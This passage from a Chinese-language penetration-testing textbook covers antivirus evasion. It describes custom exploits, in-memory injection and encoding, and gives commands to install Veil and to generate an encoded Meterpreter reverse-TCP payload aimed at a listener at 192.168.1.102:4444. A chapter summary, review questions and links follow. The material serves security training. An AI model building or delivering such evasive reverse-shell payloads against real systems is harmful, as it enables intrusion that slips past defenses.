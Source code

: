 1.  最成功的方法是使用您选择的语言（Python/C/C++/Java）开发自定义利用程序。这种方法很有用，因为自定义利用程序不会有任何 AV 签名，通常会逃避 AV 保护。或者，我们也可以下载一个公共利用程序，并进行大量修改以改变其产生的签名。我们在 Web 利用案例中开发的利用程序都是从头开始编写的，理论上不应该被任何 AV 检测到。

1.  第二种方法是将我们的有效载荷/利用程序注入到底层系统的进程内存中。这样做将在内存中执行代码，并且大多数防病毒软件都不会检测到。

1.  第三种方法是利用编码来防止被检测。在本节中，我们将看到如何利用一个非常强大的编码框架 VEIL 来制作一个可能逃避 AV 检测的有效载荷。

# 下载和安装 Veil

应该注意，Veil 已预装在最新版本的 Kali Linux 中。对于其他版本的 Linux，我们可以使用以下命令安装 Veil：

```py
apt -y install veil
/usr/share/veil/config/setup.sh --force --silent
```

一旦 Veil 成功安装，生成 Veil 编码有效载荷就是一个非常简单的任务。在使用 Veil 时，背后发生的事情是，它试图使利用代码变得神秘和随机，以便基于签名的检测工作的 AV 可能会被利用的随机性和神秘性所愚弄。有两种方法可以做到这一点。一种方法是使用 Veil 提供的交互式 shell。这可以通过输入命令`veil`，然后在规避模块下选择一个有效载荷来调用。另一个更简单的选择是在命令行中指定所有选项，如下所示：

```py
veil -t Evasion -p 41 --msfvenom windows/meterpreter/reverse_tcp --ip 192.168.1.102 --port 4444 -o exploit
```

上面的命令将使用 Veil 的有效载荷编号`41`来对 Metasploit 模块`windows/meterpreter/reverse_tcp`进行编码。这将产生以下输出：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/hsn-pentest-py/img/df1f54a8-9f90-49b6-93f3-619126499a09.png)

上面的截图显示了 Veil 将对其进行编码并可以传递给受害者以查看其是否逃避防病毒软件的利用程序。如果没有，那么我们必须使用 Veil 的交互版本来调整有效载荷参数，以生成更独特的签名。您可以在“进一步阅读”部分的链接中找到有关 Veil 的更多信息。

# 总结

在本章中，我们学习了开发自定义利用程序来利用 Web 和网络服务。我们还讨论了如何从防病毒软件中逃避我们的利用。此外，我们还探讨了各种 Web 漏洞，如 LFI 和 RFI，并讨论了如何提升这些漏洞以从受害者那里获得反向 shell。重要的是要理解，利用开发需要对潜在漏洞的深入理解，我们应该始终尝试制作可重用的通用利用程序。请随意修改我们讨论的利用代码，使其通用化，并尝试在其他应用程序中使用它们。

在下一章中，我们将走出渗透测试生态系统，了解更多关于安全运营中心（SOC）或网络安全监控生态系统的信息。我们将了解什么是网络威胁情报以及如何利用它来保护组织免受潜在威胁。我们还将了解如何将网络威胁情报自动化，以辅助 SIEM 工具的检测能力。

# 问题

1.  还可以使用自定义利用程序利用哪些其他基于 Web 的漏洞？

1.  如果一个攻击向量失败，我们如何改进开发的利用代码以尝试其他可能性？

# 进一步阅读

+   Python 中的利用程序开发：[`samsclass.info/127/127_WWC_2014.shtml`](https://samsclass.info/127/127_WWC_2014.shtml)

+   Python 漏洞开发辅助：[`github.com/longld/peda`](https://github.com/longld/peda)

+   创建 Metasploit 模块：[`github.com/rapid7/metasploit-framework/wiki/Loading-External-Modules`](https://github.com/rapid7/metasploit-framework/wiki/Loading-External-Modules)

+   Veil：[`www.veil-framework.com/veil-tutorial/`](https://www.veil-framework.com/veil-tutorial/)


# 第十四章：网络威胁情报

